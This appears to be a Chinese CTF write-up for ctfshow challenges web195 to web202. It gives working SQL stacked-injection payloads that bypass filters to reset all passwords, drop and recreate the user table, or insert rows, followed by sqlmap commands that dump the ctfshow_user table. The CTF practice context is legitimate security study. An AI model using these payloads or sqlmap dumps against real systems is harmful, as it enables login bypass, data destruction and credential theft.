### web195

堆叠注入专题开始

堆叠注入会比联合查询有更多的权限，可以增删改查

过滤了 select，单双引号也被过滤，没有报错提示。

没有过滤分号，考虑堆叠注入。但不能有空格，可以通过反引号包裹表名等信息的方式绕过空格过滤。

密码也只能是数字

通过提供的查询语句可以知道表名是 ctfshow_user，列名为 username 和 pass。  
考虑用 update 把所有 pass 改成 1。

```sql
username=1;update`ctfshow_user`set`pass`=1&password=1
```

之后密码输 1 即可


### web196



用户名长度受限，（本题没有 select 过滤）

判断条件满足的设定是`$row[0]==$password`，`$row`存储的是结果集中的一行数据，`$row[0]`就是这一行的第一个数据。  
既然可以堆叠注入，就是可以多语句查询，`$row`应该也会逐一循环获取每个结果集。

那么可以输入 username 为`1;select(1)`，password 为 1。当`$row`获取到第二个查询语句`select(1)`的结果集时，即可获得`$row[0]=1，那么 password 输入 1 就可以满足条件判断。

> 多语句查询情况下，`$row`应该也会逐一循环获取每个结果集



### web197



`select`被正常过滤
两种堆叠注入方法

#### **方法一**：

利用`show`。根据题目给的查询语句，可以知道数据库的表名为 ctfshow_user，那么可以通过`show tables`，获取表名的结果集，在这个结果集里定然有一行的数据为 ctfshow_user。

用户名：`1;show tables`  
密码：`ctfshow_user`



#### 方法二

更新表。过滤了 update，但我们可以删表，重新建一个同样表名的表，列名给的查询语句也已经告知，分别是 username 和 pass。

```
0;drop table ctfshow_user;create table ctfshow_user(`username` varchar(100),`pass` varchar(100));insert ctfshow_user(`username`,`pass`) value(1,1)
```

直接输 1，1 即可


### web198


禁止删表、建表、更新表等

#### 方法一

`show tables`



#### 方法二

可以用`insert`

`1;insert ctfshow_user(username, pass) values(1,1)`



### web199



`show tables`直接出



### web200

多了逗号过滤，其实不影响


`show tables`直接出



### web201

```
开始系统练习sqlmap的使用
```

题目有提到  **使用--user-agent 指定 agent**，因为对于 sqlmap 默认的 user-agent  会包含 sqlmap [关键字](https://so.csdn.net/so/search?q=%E5%85%B3%E9%94%AE%E5%AD%97&spm=1001.2101.3001.7020)，很多时候我们会使用 --random-agent 来随机 ua 头。

题目要求还需要使用--[referer](https://so.csdn.net/so/search?q=referer&spm=1001.2101.3001.7020)  绕过 referer 检查，referer 就是请求来自哪里，这里我们的请求其实是来自题目的地址：

基本操作参考下述

```
sqlmap -u 'http://xx/?id=1' --dbs
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --tables
```

`python sqlmap.py -u "http://18993da1-ffad-4dce-bb81-6cfa417a4696.challenge.ctf.show/api/?id=1" --user-agent "sqlmap" --referer "http://18993da1-ffad-4dce-bb81-6cfa417a4696.challenge.ctf.show/sqlmap.php" -t 20 --dump -T ctfshow_user -D ctfshow_web`



### web202



这里使用  --data 指定参数进行 post 请求的注入：

```cmd
python sqlmap.py -u http://2c26e425-8ba4-4610-9f63-7094e75b410a.challenge.ctf.show/api/ --data id=1 --referer http://2c26e425-8ba4-4610-9f63-7094e75b410a.challenge.ctf.show/sqlmap.php -D ctfshow_web -T ctfshow_user -C id,pass,username --dump --batch
```


